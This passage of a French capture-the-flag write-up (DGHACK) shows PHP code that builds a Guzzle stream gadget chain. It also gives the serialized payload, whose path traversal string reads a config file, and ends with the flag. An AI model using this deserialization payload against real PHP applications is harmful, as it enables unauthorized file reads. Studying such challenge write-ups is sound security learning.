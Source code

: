 Et la construction de la sérialisation :

```php
function test() {
    $fnstream = new GuzzleHttp\Psr7\FnStream(array());
    $noseekstream = new GuzzleHttp\Psr7\NoSeekStream($fnstream);
    $stream = new GuzzleHttp\Psr7\Stream($noseekstream, null);
    echo serialize($stream) . PHP_EOL;
    echo base64_encode(serialize($stream)) . PHP_EOL;
}
test();
```

![It's the final payload](../images/php_finalpayload.png)

La sérialisation, pour ceux que ça amuse:

```
O:22:"GuzzleHttp\Psr7\Stream":7:{s:30:"GuzzleHttp\Psr7\Streamstream";N;s:28:"GuzzleHttp\Psr7\Streamsize";a:3:{i:0;a:1:{i:0;s:15:"_fn_getContents";}i:1;a:2:{i:0;s:15:"_fn_getContents";i:1;s:19:"/../../../../config";}i:2;a:1:{i:0;s:0:"";}}s:32:"GuzzleHttp\Psr7\Streamseekable";N;s:32:"GuzzleHttp\Psr7\Streamreadable";N;s:32:"GuzzleHttp\Psr7\Streamwritable";N;s:27:"GuzzleHttp\Psr7\Streamuri";N;s:38:"GuzzleHttp\Psr7\StreamcustomMetadata";O:28:"GuzzleHttp\Psr7\NoSeekStream":2:{s:6:"stream";O:24:"GuzzleHttp\Psr7\FnStream":2:{s:33:"GuzzleHttp\Psr7\FnStreammethods";N;s:41:"GuzzleHttp\Psr7\FnStreamdisplay_content";b:1;}s:13:"custom_method";a:3:{i:0;s:15:"allow_attribute";i:1;s:8:"register";i:2;s:11:"getContents";}}}
```

J'envoie ce payload sur le site et j'obtiens le flag !

Flag: `DGHACK{D_Ont_M3sS_W1th_PhP_0bj3Ct5}`